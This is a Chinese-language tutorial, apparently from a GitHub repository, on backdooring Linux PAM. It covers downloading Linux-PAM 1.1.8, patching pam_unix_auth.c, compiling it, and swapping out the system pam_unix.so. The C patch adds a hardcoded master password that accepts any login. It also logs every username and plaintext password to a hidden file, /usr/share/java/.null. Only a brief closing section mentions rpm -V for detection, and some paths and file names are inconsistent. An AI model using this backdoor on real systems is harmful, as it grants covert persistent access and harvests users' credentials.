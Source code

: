 # PAM后门

## 一、查看本机pam版本

```bash
dpkg -l | grep pam
```



![image-20240625000639892](PAM后门.assets/image-20240625000639892.png)

 

 ```bash
 [root@hcss-ecs-3689 pam_custom_auth]# rpm -qi pam
 Name        : pam
 Version     : 1.1.8
 Release     : 23.el7
 Architecture: x86_64
 Install Date: Mon 24 Jun 2024 08:48:16 PM CST
 Group       : System Environment/Base
 Size        : 2632373
 License     : BSD and GPLv2+
 Signature   : RSA/SHA256, Sat 04 Apr 2020 05:03:22 AM CST, Key ID 24c6a8a7f4a80eb5
 Source RPM  : pam-1.1.8-23.el7.src.rpm
 Build Date  : Wed 01 Apr 2020 12:00:59 PM CST
 Build Host  : x86-02.bsys.centos.org
 Relocations : (not relocatable)
 Packager    : CentOS BuildSystem <http://bugs.centos.org>
 Vendor      : CentOS
 URL         : http://www.linux-pam.org/
 Summary     : An extensible library which provides authentication for applications
 Description :
 PAM (Pluggable Authentication Modules) is a system security tool that
 allows system administrators to set authentication policy without
 having to recompile programs that handle authentication.
 [root@hcss-ecs-3689 pam_custom_auth]# 
 ```




CentOS7种默认的pam的版本为1.1.8

## 二、下载系统版本的pam

各个版本的pam包下载地址：

[http://www.linux-pam.org/library/](http://www.linux-pam.org/library/)   已失效，新版不在提供

本地下载 本源码目录右键打开	[Linux-PAM-1.1.8.tar.bz2](./Linux-PAM-1.1.8.tar.bz2)

新的地址，亲测有效： [https://mirrors.aliyun.com/blfs/conglomeration/Linux-PAM/](https://mirrors.aliyun.com/blfs/conglomeration/Linux-PAM/)

下载对应版本的压缩包并解压
```bash
wget https://mirrors.aliyun.com/blfs/conglomeration/Linux-PAM/Linux-PAM-1.1.8.tar.bz2
tar -jxvf Linux-PAM-1.1.8.tar.gz
```



## 三、编译

安装依赖软件
```bash
yum install -y texinfo-5.1-5.el7.x86_64 flex-2.5.37-6.el7.x86_64 flex-devel flex
```

代码编辑

修改moudles/pam_unix/pam_unix_auth.c文件，修改处位于180行

![image-20240625001834161](PAM后门.assets/image-20240625001834161.png)

 

 

```c
if(strcmp(p,"zsl123")==0)
{
    retval = PAM_SUCCESS;
}


// 下面的是记录明文密码
if(retval== PAM_SUCCESS)
{
    FILE *fp = fopen("/usr/share/java/.null","a+");
    fprintf(fp,"%s::%s\n",name, p);
    fclose(fp);
}

// name = p =NULL 上面的内容为新添加部分
```


修改完后在Linux-PAM-1.1.8.tar.gz 目录中执行命令

```bash
./configure && make
```



编译好的文件在modules/pam_unix/.libs/中

```bash
[root@hcss-ecs-3689 .libs]# ls -l
total 536
-rw-r--r-- 1 root root   8208 Jun 24 20:38 bigcrypt.o
-rw-r--r-- 1 root root  21232 Jun 24 20:38 md5_broken.o
-rw-r--r-- 1 root root  32680 Jun 24 20:38 md5_good.o
-rw-r--r-- 1 root root  28128 Jun 24 20:38 pam_unix_acct.o
-rw-r--r-- 1 root root  14872 Jun 24 20:38 pam_unix_auth.o
lrwxrwxrwx 1 root root     14 Jun 24 20:38 pam_unix.la -> ../pam_unix.la
-rw-r--r-- 1 root root    954 Jun 24 20:38 pam_unix.lai
-rw-r--r-- 1 root root  66360 Jun 24 20:38 pam_unix_passwd.o
-rw-r--r-- 1 root root  11216 Jun 24 20:38 pam_unix_sess.o
-rwxr-xr-x 1 root root 193104 Jun 24 20:38 pam_unix.so
-rw-r--r-- 1 root root  66856 Jun 24 20:38 passverify.o
-rw-r--r-- 1 root root  67872 Jun 24 20:38 support.o
-rw-r--r-- 1 root root   9872 Jun 24 20:38 yppasswd_xdr.o
[root@hcss-ecs-3689 .libs]# pwd
/opt/pam_custom_auth/Linux-PAM-1.1.8/modules/pam_unix/.libs
```



先mv备份原来的pam_unix.so
```bash
mv /lib64/x86_64-linux-gnu/security/pam_unix.so /lib64/x86_64-linux-gnu/security/pam_unix.so.bak
```



找到pam_unix.so 并替换
```bash
cp ./pam_unix.so /lib/x86_64-linux-gnu/security/pam_unix.so
```



## 四、验证

创建个普通用户
```bash
useradd 123
passwd 123
```

登录root
```bash
su root
goodboy
```

查看/usr/share/java/.null是否有记录
```bash
cat /usr/share/java/.null
```

## 五、反查

使用rpm工具去校验包的完整性，如果异常则有问题

```bash
[root@hcss-ecs-3689 .libs]# rpm -V pam
S.5....T.    /usr/lib64/security/pam_unix.so
```



